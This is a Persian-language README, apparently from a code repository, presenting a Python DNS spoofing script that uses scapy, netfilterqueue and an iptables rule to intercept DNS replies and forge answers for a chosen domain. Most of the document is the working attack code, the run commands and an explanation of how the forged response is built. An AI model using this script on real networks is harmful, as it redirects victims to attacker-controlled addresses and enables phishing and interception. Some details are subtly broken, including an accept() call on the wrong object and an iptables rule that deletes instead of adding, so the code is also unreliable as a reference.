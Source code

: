 # Dns Spoof



## نصب ابزار مورد نیاز

این یک اسکریپت جهت انجام حملات دی ان اس اسپوفینگ است و به پایتون ۳ جهت اجرا نیاز دارد. سپس برای نصب پکیج های مورد نیاز دستورات زیرا را وارد کنید:

```bash
pip install scapy
pip install netfilterqueue
```

## اجرای اسکریپت
برای اجرای اسکریپت کافی است ان را به صورت زیر اجرا کنید:

```bash
sudo ./dns-spoof.py --queue 1 --server www.example.com/1.2.3.4
```

این اسکریپت به کمک یک پکیج به اسم نت فیلتر کیو شروع به پردازش بسته ها می کند. یعنی بسته ها را از یک سری صف می خواند و می تواند ان را تغییر دهد یا قبول کند یا ریجکت کند. برای اینکه از این ضف ها استفاده کند. باید از ایپی تیبل کمک بگیرد. یعنی ایپی تیبل پکت های دریافتی را در صف هایی قرار دهد و این اسکریپت این پکت ها را برداشته و پردازش کند. برای اینکه ایپی تیبل این کار را برای ما انجام دهد باید از دستور زیر استفاده کنیم:

```bash
sudo iptables -D INPUT -p udp  --sport 53 -j NFQUEUE --queue-num 1
```

## توضیح اسکریپت

در این قسمت ما داریم یک کامند لاین درست می کنیم. که بتواند دو تا مقدار بگیرد اولی شماره صفی که باید پکت ها را از ان بخواند و دومی ادرس وبسایت به علاوه ایپی که باید جواب دهد. و از طرفی یک ابجکت از نوع نت فیلتر می سازیم و ان را به شماره صفی که در کامند لاین دادیم متصل می کنیم. همچنین یک کال بک برای ان ست می کنیم. که هر پکتی که از صف برداشت ان را به این کال بک بدهد یا عملیات مورد نظر انجام شود:

```python
parser = argparse.ArgumentParser()
parser.add_argument('--queue', required=True, type=int,
                    metavar='Netfilter Queue ID for binding')
parser.add_argument('--server', required=True, type=str,
                    metavar='website/to ip address')
args = parser.parse_args()
splitted = args.server.split('/')
nfqueue = NetfilterQueue()
nfqueue.bind(args.queue, callback)
nfqueue.run()
```

در این قسمت تابع کال بک را مشاهده می کنید که ابتدا کاری که انجام می دهد این است که پیلود پکت که دریافت کرده را برمی دارد. سپس بررسی می کند که ایا پکت مورد نظر از نوع دی ان اس است یا خیر اگر نبود پکت را برای ادامه پردازش به خود کرنل منتقل می کند. بعد از آن بررسی می کند که آیا پکت مورد نظر که از نوع دی ان اس است حاوی ادرسی است که ما می خواهیم ان را عوض کنیم یا خیر. در صورتی که حاوی این ادرس بود یک پکت جدید از نوع دی ان اس می سازیم و در پکت مورد نظر اینجکت می کنیم. و سپس پکت را به کرنل پاس می دهیم:

```python
def callback(packet):
    ip_packet = IP(packet.get_payload())
    # for better throghput check if the packet is dns query
    if not ip_packet.haslayer(DNSQR):
        # accept packet and go to furthur processing
        ip_packet.accept()

    print(f"[*] Recive dns packet for site: {ip_packet[DNSQR].qname.decode()}")
    # check if the dns query contains our target site
    if splitted[0] in ip_packet[DNSQR].qname.decode():
        print("[*] We got dns packet for target site!!!!")
        # we hit the dns query that is about out target. going to change
                      # it's ip packet                                   # since it's dns packet, it must be sent over udp
        new_payload = IP(src=ip_packet[IP].src, dst=ip_packet[IP].dst) / UDP(sport=ip_packet[UDP].sport, dport=ip_packet[UDP].dport) /\
                        DNS(id=ip_packet[DNS].id, qr=1, aa=1, qd=ip_packet[DNS].qd, an=DNSRR(rrname=ip_packet[DNS].qd.qname, ttl=10, rdata=splitted[1]))
        
        # change packet payload
        packet.set_payload(bytes(new_payload))
        # accept packet and go to furthur processing
        packet.accept()
    else:
        # pass the packet. it's not what we want
        packet.accept()
```

## نتایج اجرای اسکریپت

دی ان اس واقعی:

![real-dns](real-dns.png)

دی ان اس فیک بعد از اجرای اسکریپت:

![fake-dns](fake-dns.png)

خروجی اسکریپت:

![script-output](script-output.png)

